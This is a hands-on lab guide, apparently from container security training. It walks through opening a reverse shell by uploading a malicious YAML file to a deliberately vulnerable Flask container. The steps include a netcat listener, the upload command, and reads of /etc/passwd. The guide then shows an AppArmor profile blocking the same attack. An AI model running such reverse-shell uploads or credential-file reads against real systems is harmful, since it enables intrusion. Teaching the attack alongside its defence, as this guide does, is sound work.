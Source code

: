 # **AppArmor**

---

> #### Runtime Protection for Container Workloads

### **Lab Image : `Containers`**

---

#### Step 1:

* Navigate to the `AppArmor` directory on the provisioned server.

```
cd /root/container-training/Container/AppArmor/
```

* Multiplex terminal session with `tmux` and split panes horizontally.

```commandline
tmux
```
```commandline
tmux split-window -v
```

---

#### Step 2:

* Go to the lower panel and start a `netcat` listener.

> ###### Switch to the lower panel with `ctrl` + `b` and then `lower arrow key`

```commandline
nc -l 1337
```

* Go to the upper pane to launch the `abhaybhargav/vul_flask` container

> ###### Switch to the upper pane with `ctrl` + `b` and then `upper arrow key`

```commandline
docker run -d -p 5050:5050 abhaybhargav/vul_flask
```

---

#### Step 3:

* Fetch the Public IP Address of the provisioned server

```commandline
serverip
```

* Edit `reverse_shell.yml` by substituting `<IP>` with the Public IP Address fetched in the previous step

> **EXAMPLE**: `sed -i -e 's/Server_IP_Here/192.168.1.1/g' reverse_shell.yml`

```commandline
sed -i -e 's/Server_IP_Here/'"$(serverip)"'/g' reverse_shell.ymll
```

* Confirm if `reverse_shell.yml` has been edited.

```commandline
cat reverse_shell.yml
```

---

#### Step 4:

* Upload the edited `reverse_shell.yml` to the `abhaybhargav/vul_flask` application running on port `5000`

> **EXAMPLE**: `http --form POST http://192.168.1.1:5050/yaml_hammer file@reverse_shell.yml submit=submit`

```commandline
http --form POST http://$(serverip):5050/yaml_hammer file@reverse_shell.yml submit=submit
```

* If the command has successfully executed, the reverse tcp shell in the lower panel should be working. To run commands on the shell, switch to the lower panel.

> ###### Switch to the lower panel with `ctrl` + `b` and then `lower arrow key`

* With a reverse-shell on the container, commands can be run on it.

```commandline
ls
```
```commandline
cat /etc/passwd
```
```commandline
cat app.py
```

* Go back to the upper pane and stop all containers. Running this will terminate the reverse-shell.

> ###### Switch to the upper pane with `ctrl` + `b` and then `upper arrow key`

```commandline
clean-docker
```

---

> #### **Let's try and prevent the same attack using `Apparmor`**:

---

#### Step 5:

* Load the apparmor profile to the provisioned server

```commandline
apparmor_parser -r -W vul-flask-armor
```

* Launch the same `abhaybhargav/vul_flask` container, with the apparmor profile attached.

```commandline
docker run --rm -d -p 5050:5050 --security-opt apparmor=vul-flask-armor abhaybhargav/vul_flask
```

---

#### Step 6:

* Switch to the lower panel and setup the netcat listner

> ###### Switch to the lower pane with `ctrl` + `b` and then `lower arrow key`

```commandline
ctrl + b + (lower arrow key) 
```
```commandline
nc -l 1337
```

* In the upper panel, upload the `reverse_shell.yml` file similar to **Step 4**

> **EXAMPLE**: `http --form POST http://192.168.1.1:5050/yaml_hammer file@reverse_shell.yml submit=submit`

```commandline
http --form POST http://$(serverip):5050/yaml_hammer file@reverse_shell.yml submit=submit
```

> **NOTE**: It can be observed that the reverse-shell was unsuccessful

---

#### Step 7:

* Fetch the `Container ID` and try to `exec` into the `abhaybhargav/vul_flask` container.

```commandline
docker ps
```

> **EXAMPLE**: `docker exec -ti fc4e7ea5e6f3 bash`

```commandline
docker exec -ti <CONTAINER ID> bash
```

* Inside the container environment, try to create/access files

```commandline
cat /etc/passwd
```
```commandline
touch shell.py
```
```commandline
touch /tmp/shell.py
```

> **NOTE**: The reverse-shell and the commands do not work because we enabled the runtime security profile with AppArmor

---

#### Step 8:

* Exit from the `tmux` sessions and stop all the containers

```commandline
clean-docker
```

---

### Reading Material/References:

* https://docs.docker.com/engine/security/apparmor/

* https://gitlab.com/apparmor/apparmor